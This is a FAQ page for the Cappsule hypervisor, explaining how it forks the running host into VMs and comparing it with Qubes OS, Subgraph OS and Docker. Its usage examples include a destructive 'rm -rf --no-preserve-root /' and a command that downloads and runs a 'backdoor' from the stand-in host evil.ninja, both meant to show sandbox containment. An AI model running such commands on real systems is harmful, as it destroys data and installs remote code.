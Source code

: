 ```yaml
---
layout: page
title: FAQ
permalink: /faq/
---
```


## What's the difference between Cappsule and other hypervisors?

Traditional virtualization solutions (e.g.: VMware, Xen, KVM) virtualize whole operating systems (such as Windows or Linux), whereas Cappsule virtualizes a running system. VMs launched by Cappsule don't go through the boot step; they start directly on a running kernel. This particular feature allows an instantaneous launch of VMs. One can think of VMs as forks of the host operating system. In fact, the VMs' kernel is a copy of the running host kernel. Another particularity is that no VM disk image is required. There's no need to setup, configure, install, manage and keep new VMs up-to-date. The host filesystem is accessible as Copy-on-Write (with respect to a whitelist of files and folders accessible in read-only or read-write mode).



## Why Cappsule hypervisor is considered secure?

Every software has security bugs, and Cappsule is no exception. But it is developed from scratch, with the main goal of being secure. With less than 15K lines of code, the attack surface is extremely narrowed in comparison to mainstream hypervisors. Moreover, anything that isn't vital for the VMs isn't implemented and certain classes of attacks simply don't exist. For example, there's no way to access hardware (through I/O memory, I/O ports, or DMA). Also, there's no need of instruction emulation: vulnerabilities such as XSA-105 are thus impossible.



## How transparent is it?

Just prefix your commands with `virt exec`:

 * `virt exec bash`
 * `virt exec firefox`
 * `virt exec vlc random-cat-movie-downloaded-on-the-internet.avi`
 * `sudo virt exec rm -rf --no-preserve-root /`
 * `virt exec bash -c "wget http://evil.ninja/backdoor && chmod +x backdoor && sudo ./backdoor"`

That's it.

Some miscellaneous options are available to specify policies and shared folders, and a few commands help to manage running cappsules and retrieve information:

 * `virt ps`
 * `virt kill 4`
 * `virt attach 3`



## What's the difference with project X?

### Qubes OS

The projects don't share the very same goal. Qubes OS is an amazing project whose developers pushed end user security a step ahead, and it protects against a broader panel of attacks than Cappsule (e.g. malicious firmware, buggy Wi-Fi or USB stack). Nevertheless, the main OS needs to be reinstalled, and users have to learn how to use this new system. Regarding security, Xen's history is disastrous but recent [hardware virtualization requirement](https://www.qubes-os.org/news/2016/07/21/new-hw-certification-for-q4/) should improve that issue.


### Subgraph OS

Subgraph OS is another promising project. While I haven't tested it, it doesn't seem to use hardware virtualization, but instead relies on Linux namespaces and SECCOMP to ensure the isolation of applications.


### Docker

Docker isn't meant for security. While a lot of improvements have been made recently in this area, it also relies on Linux namespaces and SECCOMP to ensure container isolation. A single kernel vulnerability allows an attacker to compromise the host. On this topic, the chapter 7 (*Understanding Container Threats*) of NCC Group Whitepaper [Understanding and Hardening Linux Containers](https://www.nccgroup.trust/us/our-research/understanding-and-hardening-linux-containers/) is a must-read.



## Error messages

 * *Client error: cannot connect to cappsule server.* Is the daemon running (`/usr/local/cappsule/usr/bin/daemon`)?



## Is there a bug bounty?

Obviously. Here are the [rewards](/bugbounty).

